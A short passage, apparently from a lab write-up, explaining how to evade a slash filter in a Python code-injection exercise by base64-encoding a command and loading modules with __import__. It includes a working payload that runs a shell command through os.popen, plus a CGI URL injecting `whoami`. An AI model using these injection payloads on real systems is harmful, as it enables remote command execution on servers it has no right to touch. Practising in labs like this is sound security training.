 	To bypass this issue, we can use base64 encoding. We will send a base64 encoded command to the server (to avoid the / in the path) and tell the server to decode it using the function b64decode. The call to b64decode will be done by the server as part of our payload. Unfortunately the base64 module is not loaded, so we will need to use the __import__ trick to load base64. Finally, the command to score will need to be base64-encoded before being sent to the server (so the payload can decode it).	

	```py
	"%2bstr(__import__('os').popen(__import__('base64').b64decode('L3Vzci9sb2NhbC9iaW4vc2NvcmUgNWI1MmVjOTctZDVlOS00OWJkLWE5ZGItMWEzMTFmZDllMDg1\
	Cg==')).read())%2b"
	```

	```
	http://ptc-09279e98-d50c20a7.libcurl.so/cgi-bin/hello?name=jadu%27.`whoami`.%27
	```


